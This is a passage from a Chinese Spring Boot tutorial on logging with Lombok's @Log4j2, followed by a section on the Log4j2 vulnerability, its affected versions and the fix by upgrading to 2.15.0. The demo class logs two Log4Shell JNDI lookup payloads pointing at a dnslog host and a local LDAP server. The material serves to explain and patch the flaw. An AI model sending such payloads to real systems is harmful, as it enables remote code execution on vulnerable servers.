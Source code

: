 ```xml


```

传统使用

```java
 private final static Logger logger = LoggerFactory.getLogger(SpringbootApplication.class);
```

Lombok使用

```java
package com.kuangstudy;

import lombok.extern.log4j.Log4j2;
import org.slf4j.Logger;
import org.slf4j.LoggerFactory;
import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;

@SpringBootApplication
@Log4j2
public class SpringbootApplication {
    public static void main(String[] args) {
        SpringApplication.run(SpringbootApplication.class, args);
        log.error("${jndi:ldap://f0m8rj.dnslog.cn/exp}");
        log.error("${jndi:ldap://127.0.0.1:1389/badClassName}");
    }
}
```



### 04-02、Log4j2漏洞

爆出漏洞：https://blog.csdn.net/m0_46163918/article/details/121903696?utm_source=app&app_version=4.20.0&code=app_1562916241&uLinkId=usr1mkqgl919blen 解决方案

### 漏洞描述

Apache Log4j2是一款优秀的Java日志框架，与Logback平分秋色，大量主流的开源框架采用了Log4j2，像Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响。所以，这样一个底层框架出现问题，影响面可想而知。

漏洞信息：Apache Log4j 2.15.0-rc1 版本存在漏洞绕过，需及时更新至 Apache Log4j 2.15.0-rc2 版本。影响范围：2.0 <= Apache log4j2 <= 2.14.1。

#### 升级版本，发布系统,简单解决

最新修复版本：https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2

原理分析：https://baijiahao.baidu.com/s?id=1718946520876495065&wfr=spider&for=pc

```xml
<properties>
    <java.version>1.8</java.version>
    <log4j2.version>2.15.0</log4j2.version>
</properties>
<!--springboot的web的starter-->
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
    <exclusions>
        <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
        </exclusion>
    </exclusions>
</dependency>
```